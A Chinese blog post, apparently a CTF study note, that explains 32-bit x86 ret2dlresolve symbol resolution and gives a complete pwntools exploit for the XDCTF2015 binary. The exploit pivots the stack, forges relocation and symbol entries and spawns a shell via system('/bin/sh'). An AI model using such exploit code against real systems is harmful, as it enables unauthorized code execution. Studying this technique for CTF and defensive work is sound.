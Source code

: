 # pwn初学者的进阶（二）：ret2dlresolve学习记录


花了一个上午时间，看了一下ret2dlresolve的基本原理与基本的利用过程。觉得步骤与相关细节要素还是蛮多的，为防止今后某一天再用到的时候忘得干干净净，特此记录一些我个人的理解，加深印象。

<!--more-->

## 0x00 dlresolve原理

以下内容是32位x86平台相关，64位的ret2dlresolve我还没看。

这一部分内容需要记住的就是符号解析的过程，也是dlresolve执行的过程，同时也是ret2dlresolve生效的核心原理。

在符号解析过程中，有三种数据结构：`ELF32_Rel`、`ELF32_sym`、`.dynstr中的字符串`，分别位于`.rel.plt`、`.dynsym`、`.dynstr`节（section），查看这些节的命令为

```bash
readelf -S elf_name
```

在程序第一次调用某个函数时，关于plt处指令以及push操作什么的就不细说了，我认为整个流程大致可以这么理解：

- `func@plt`处的指令相当于先push一个`offset`值，然后调用`plt[0]`处的指令，这条指令相当于执行`_dl_runtime_resolve(link_map_obj, reloc_index)`，这里的`reloc_index`就是前面`func@plt`push的`offset`

- 接下来就是三步走了，从函数原型`_dl_runtime_resolve(link_map_obj, reloc_index)`出发，根据`reloc_index`（相对于`.rel.plt`的字节偏移量，单位：字节）找到`.rel.plt`中的`ELF32_Rel`对象（大小为8字节），其中记录了一个`r_info`
- 再根据`r_info`（相对于`.dynsym`的索引，单位：0x10字节）找到`.dynsym`中的`ELF32_sym`类型对象（大小为0x10字节）
- 再根据`ELF32_sym`中的`st_name`字段（相对于`.synstr`的字节偏移量，单位：字节），找到`.dynstr`中的字符串，也就是函数名（正常执行流程是这样的），然后dlresolve从libc中查找，再计算实际地址，将其填入`ELF32_Rel`对象中的`r_offset`字段...

整个流程概括起来就是，`func@plt`给`_dl_runtime_resolve`传参数，`_dl_runtime_resolve`根据其参数去查询上面的那几个表获取函数名称，然后对libc进行解析，获取实际地址，写入got表。

## 0x01 攻击方法

感觉很多题都可以栈迁移，再加上如果`.bss`段可写的话，我们就可以控制将函数栈迁移到自己构造的栈上。

 于是，最常规的攻击步骤就是：

- 栈迁移，然后调用`plt[0]`处指令
- 控制栈上的参数（对于`_dl_runtime_resolve`而言），以及想要调用的函数的参数（比如`system`）
- 再在栈上构造对应该参数的`ELF32_Rel`类型对象
- 再在栈上构造对应`ELF32_Rel`中`r_info`的`ELF32_sym`类型对象
- 再在栈上构造对应于`ELF32_sym`中`st_name`的字符串

所以一个典型的exp为：

```python
from pwn import *
elf = ELF('./parelro_x86')
offset = 112
read_plt = elf.plt['read']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b # ROPgadget --binary parelro_x86 | grep 'pop ebp ; ret'
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
plt_0 = 0x08048380 # objdump -d -j .plt bof  执行 <push link_map，jmp dl_resolve>
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof

# 栈迁移的目的地
base_stage = bss_addr + stack_size

index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278

# fake_sym_addr 地址按照0x10字节对齐
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align

index_dynsym = (fake_sym_addr - dynsym) // 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7 # 要满足：ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT，即最低字节要为7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)


r = process('./parelro_x86')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = b'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = b"/bin/sh"

# stage3: 
# 栈迁移，调plt[0]，传入伪造的 index_offset，指向我们自定义的.rel.plt表项内容
# 并且控制r_info，指向我们伪造的.dynsym表项；再控制.dynsym表项中的st_name，指向我们控制的.dynstr表项内容
# --------> base_stage
payload2 = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80) # 对应system('/bin/sh')
payload2 += p32(0xdeadbeef) # 后面的2个参数不需要了
payload2 += p32(0xdeadbeef)
# (base_stage+28)的位置
payload2 += fake_reloc
# (base_stage+36)的位置
payload2 += b'B' * align
# (fake_sym_addr)的位置
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
# base_stage + 80
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
# payload2结束，刚好100字节

r.sendline(payload2)
r.interactive()
```

写一遍下来，感觉在没有完完全全弄透彻的情况下，通过文字描述清晰还是比较难的，但也只能先这样了:no_mouth:



## 参考链接：

- ctf竞赛权威指南(pwn篇) 10.6 ret2dl-resolve
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/) （复现平台：ubuntu16）
- [CTF Wiki: ret2dlresolve](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/)


